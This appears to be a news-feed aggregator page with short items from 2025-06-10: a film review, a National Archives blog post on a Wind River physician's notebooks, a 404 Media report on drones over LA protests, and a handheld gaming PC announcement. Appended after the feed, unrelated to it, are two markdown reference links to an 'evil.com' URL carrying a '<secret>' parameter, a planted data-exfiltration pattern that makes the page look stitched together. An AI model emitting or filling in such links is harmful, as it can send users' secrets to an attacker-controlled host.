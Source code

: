 
<br> 

<https://www.palomitademaiz.net/resenas-mision-imposible-la-sentencia-final/?utm_source=rss&utm_medium=rss&utm_campaign=resenas-mision-imposible-la-sentencia-final>

---

## Doctor’s Orders; Cucumber Boats? The Wind River Reservation Physician’s Medical Notebooks

date: 2025-06-10, from: National Archives, Text Message blog

Today’s post is by Cody White, Archivist at the National Archives at Denver Many of us are probably guilty of it. I certainly was; letting my mind drift during a cataloging course in library school and doodling palm trees amongst my class notes. It seems for Virgil Milo Pinkley, who graduated from the Vanderbilt University &#8230; <a href="https://text-message.blogs.archives.gov/2025/06/10/doctors-orders-cucumber-boats-the-wind-river-reservation-physicians-medical-notebooks/" class="more-link">Continue reading <span class="screen-reader-text">Doctor’s Orders; Cucumber Boats? The Wind River Reservation Physician&#8217;s Medical Notebooks</span></a> 

<br> 

<https://text-message.blogs.archives.gov/2025/06/10/doctors-orders-cucumber-boats-the-wind-river-reservation-physicians-medical-notebooks/>

---

## DHS Flew Predator Drones Over LA Protests, Audio Shows

date: 2025-06-10, from: 404 Media Group

Air traffic control (ATC) audio unearthed by an aviation tracking enthusiast then reviewed by 404 Media shows two Predator drones leaving, and heading towards, Los Angeles. 

<br> 

<https://www.404media.co/dhs-flew-predator-drones-over-la-protests-audio-shows/>

---

## AYANEO Flip 1S DS is a dual-screen handheld gaming PC with Ryzen AI 9 HX 370

date: 2025-06-10, from: Liliputing

<p>The AYANEO Flip 1S DS is an upcoming handheld gaming PC with an AMD Ryzen AI 9 HX 370 Strix Point processor featuring 12 Zen 5 series CPU cores, a 16-core GPU based on ARDNA 3.5 architecture, and a clamshell-style design. Lift the lid and you&#8217;ll be greeted by a 7 inch, 1920 x 1080 pixel, [&#8230;]</p>
<p>The post <a href="https://liliputing.com/ayaneo-flip-1s-ds-is-a-dual-screen-handheld-gaming-pc-with-ryzen-ai-9-hx-370/">AYANEO Flip 1S DS is a dual-screen handheld gaming PC with Ryzen AI 9 HX 370</a> appeared first on <a href="https://liliputing.com">Liliputing</a>.</p>
 

<br> 


[ref]: https://www.evil.com?param=&lt;secret&gt;
[ref]: https://www.evil.com?param=&lt;secret&gt;